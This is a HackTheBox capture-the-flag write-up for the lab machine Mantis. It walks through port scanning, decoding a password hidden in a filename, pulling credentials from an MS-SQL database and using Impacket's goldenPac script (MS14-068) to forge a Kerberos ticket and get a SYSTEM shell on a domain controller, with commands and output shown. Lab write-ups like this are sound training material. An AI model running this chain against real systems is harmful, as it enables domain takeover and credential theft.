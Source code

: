 ```yaml
---
layout: post
title:  "HackTheBox - Mantis"
date:   2018-02-24 01:00:00 +0100
categories: [hackthebox]
description: "These are true facts about the Mantis!"
image:
  feature: mantis.jpg
  credit:
  creditlink: https://deepdreamgenerator.com
---
```

This writeup details attaching the Mantis machine from [HackTheBox](https://www.hackthebox.eu/login).

In short this machine looked indomitable at the start with it's ridiculous list of open ports.  Targeted enumeration, however, reveals that it's not as bad as first expected.  

Chapters:
* [Enumeration](#enumeration)
	*	[MS-SQL Credentials](#ms-sql-credentials)
* [MS14-068](#ms14-068)

Topics:
* MS-SQL Enumeration
* [MS14-068 Active Directory Exploit](https://labs.mwrinfosecurity.com/blog/digging-into-ms14-068-exploitation-and-defence/)

Enumeration
----------------
```
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2017-09-17 13:46:12Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2017-09-17T01:35:45
|_Not valid after:  2047-09-17T01:35:45
|_ssl-date: 2017-09-17T13:47:20+00:00; +7s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  unknown
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  unknown
54393/tcp open  msrpc        Microsoft Windows RPC
54398/tcp open  msrpc        Microsoft Windows RPC
``` 
That is a long list of ports!  We need to see what we can identify about this from the port scan and attack the high value ports first.  

From port 88, the kerberos port we can deduce that this machine is a member of a Windows Active Directory Environment. Port 389, the LDAP service port, confirms this suspicion.  From this information we can make the reasonable assumption that we are attacking a Windows Domain Controller.

The machine is also running web-services on port 1337 and port 8080.  1337 merely shows the default IIS index page, whilst 8080 has a blog powered by Orchard CMS:

![The name is not lost on me.](https://image.ibb.co/g9fAxc/image.png)

Running a dirbuster on both services reveals that a`/secure_notes/` directory exists on port 1337.  Inside we see two files:

![](https://image.ibb.co/e3Tfxc/image.png)

`web.config` isn't actually readable but let's have a look inside `dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt`:
```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```
So we know there's a database user called admin used to create the orcharddb database, but we're still in need of a password.  Looking at the filename, the last part of the filename looks like it's a base64 encoded string.  We can decode this quite easily:

```python
>>> import base64
>>> base64.b64decode('NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx')
'6d2424716c5f53405f504073735730726421'
```
The result of the decoding is a hex string.  It could be a hash, but to ensure it's not just hex-encoded, we run a quick decode:
```python
>>> '6d2424716c5f53405f504073735730726421'.decode('hex')
'm$$ql_S@_P@ssW0rd!'
```
Well that looks like our MS-SQL password!


### MS-SQL Credentials
For MS-SQL, metasploit has a number of inbuilt modules, but I've found them to be fairly buggy in the past, so working with `sqsh` allows us to manually enumerate with the database. 

The password implies it's for the `sa` user, but connecting with that yields no result.  Connecting with username `admin` however, does.  We use the following:
```bash
sqsh -U admin -S 10.10.10.52
```
As a quick aside, it's worthwhile to check whenever working with an MS-SQL database is the presence of higher privileges.  We can check these manually, but a quick check is to see if you can access `advanced options`.  As we see below, we don't have the necessary permissions:
```
1> exec sp_configure 'show advanced options', 1
2> go
Msg 15247, Level 16, State 1
Server 'MANTIS\SQLEXPRESS', Procedure 'sp_configure', Line 105
User does not have permission to perform this action.
(return status = 1)
```
Enumerating the database, we check the OrchardDB for the presence of any left over user records:
```
1> SELECT Username, Password FROM blog_Orchard_Users_UserPartRecord;
2> go
```
This yields the following user accounts:
``` 
admin:Password1234 
James:J@m3s_P@ssW0rd! 
```

We test both credentials on a number of services, but it turns out he's not even a user within the installed OrchardCMS on port 8080.  Trying it on a number of services, it turns out he's a user on the Windows Machine itself.
```bash
root@kali:~# nmap -sU -sS --script smb-os-discovery.nse -p U:139,T:139 10.10.10.52

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-23 15:59 EST
Nmap scan report for MANTIS.HTB.LOCAL (10.10.10.52)
Host is up (0.071s latency).

PORT    STATE  SERVICE
139/tcp open   netbios-ssn
139/udp closed netbios-ssn

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2018-02-23T15:59:13-05:00

Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
```
```
root@kali:/tmp/impacket/examples# smbclient -U James -W HTB  \\\\MANTIS\\NETLOGON
WARNING: The "syslog" option is deprecated
Enter HTB\James's password: 
Try "help" to get a list of possible commands.
smb: \> 
```

MS14-068
------------
In short, the vulnerability targeted the kerberos service, and allowed any user to elevate their permissions from regular user, to domain admin by forging a kerberos ticket.  This is quite a well known exploit and it's always worth checking if interacting with an out of date domain controller if you have a lower privileged user.

The Impacket [goldenPac](https://github.com/CoreSecurity/impacket/blob/master/examples/goldenPac.py) script is about as point-and-click as this attack gets in all honesty.  It handles the more annoying parts such as fetching the SID, and authorizing with the kerberos ticket.  We run it as below and are almost instantly returned a shell:

```
root@kali:/tmp/impacket/examples# python goldenPac.py -dc-ip 10.10.10.52 -target-ip 10.10.10.52 HTB.LOCAL/james@mantis.htb.local
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[-] Couldn't get forest info ([Errno Connection error (htb.local:445)] [Errno -2] Name or service not known), continuing
[*] Attacking domain controller 10.10.10.52
[*] 10.10.10.52 found vulnerable!
[*] Requesting shares on 10.10.10.52.....
[*] Found writable share ADMIN$
[*] Uploading file rFgUlpSB.exe
[*] Opening SVCManager on 10.10.10.52.....
[*] Creating service RKhU on 10.10.10.52.....
[*] Starting service RKhU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


References
-----------
https://labs.mwrinfosecurity.com/blog/digging-into-ms14-068-exploitation-and-defence/
https://www.trustedsec.com/2014/12/ms14-068-full-compromise-step-step/
https://blog.rapid7.com/2014/12/25/12-days-of-haxmas-ms14-068-now-in-metasploit/
http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html
